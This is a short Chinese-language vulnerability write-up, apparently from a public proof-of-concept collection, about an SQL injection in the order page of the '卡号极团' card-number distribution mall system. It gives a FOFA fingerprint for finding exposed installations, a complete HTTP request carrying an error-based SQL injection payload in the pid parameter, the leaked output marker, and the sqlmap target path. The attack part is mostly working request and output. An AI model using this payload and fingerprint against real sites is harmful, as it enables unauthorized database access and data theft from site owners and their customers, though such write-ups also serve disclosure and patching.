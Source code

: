 # 卡号极团管理系统order存在SQL注入漏洞

# 一、漏洞简介
号卡极团分销商城管理系统,同步对接多平台,同步订单信息,支持敢探号一键上架,卡号极团管理系统order存在SQL注入漏洞，攻击者获取数据库权限。

# 二、影响版本
+ 卡号极团管理系统

# 三、资产测绘
+ fofa`icon_hash="-795291075"`
+ 特征

![1711762130074-1574a63a-86db-476c-88d8-f1d859f412c0.png](./img/7J6w5NhjMVIoid6V/1711762130074-1574a63a-86db-476c-88d8-f1d859f412c0-525058.png)

# 四、漏洞复现
```plain
GET /order/index.php?pid=1%27+AND+GTID_SUBSET%28CONCAT%280x716a6a7171%2C%28SELECT+%28ELT%287046%3D7046%2C1%29%29%29%2C0x7162786b71%29%2C7046%29--+NqPh HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1711762221617-14382173-fac1-45b1-ac64-300c146f1395.png](./img/7J6w5NhjMVIoid6V/1711762221617-14382173-fac1-45b1-ac64-300c146f1395-376665.png)

```plain
qjjqq1qbxkq
```

sqlmap

```plain
/order/index.php?pid=1
```

![1711762244256-31d1262f-b6a1-4266-996a-eda7e00394c0.png](./img/7J6w5NhjMVIoid6V/1711762244256-31d1262f-b6a1-4266-996a-eda7e00394c0-456337.png)



> 更新: 2024-04-20 22:27:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yyyq138u9iev4ton>